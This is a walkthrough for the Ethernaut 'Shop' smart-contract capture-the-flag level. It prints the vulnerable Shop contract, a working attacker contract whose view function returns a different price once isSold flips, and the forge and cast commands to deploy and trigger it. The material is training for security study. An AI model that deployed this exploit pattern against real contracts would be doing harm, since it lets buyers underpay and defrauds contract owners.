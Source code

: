 ## Shop Level Outline

**Difficulty : 4/10**

Сan you get the item from the shop for less than the price asked?

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x3aCd4766f1769940cA010a907b3C8dEbCe0bd4aB)

## Solution

Simmilar solution to level 11_Elevator. We need to make a function that returns two different values the first and second time that it is called.

Functions with the **view modifier** cannot modify state so we need to monitor the Shop contract for when the boolean `isSold` changes and return a different value based on when it equals true or false.

### Walkthrough

##### 1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Buyer {
    Shop shop;

    constructor(address _shop) {
        shop = Shop(_shop);
    }

    function attack() public {
        shop.buy();
    }

    function price() external view returns (uint) {
        return shop.isSold() ? 1 : 100;
    }
}

interface Shop {
    function isSold() external view returns (bool);
    function buy() external;
}
```

##### 2. deploy our new contract
```console
forge create src/Contract.sol:Buyer --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "attack()" --gas 90000 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading

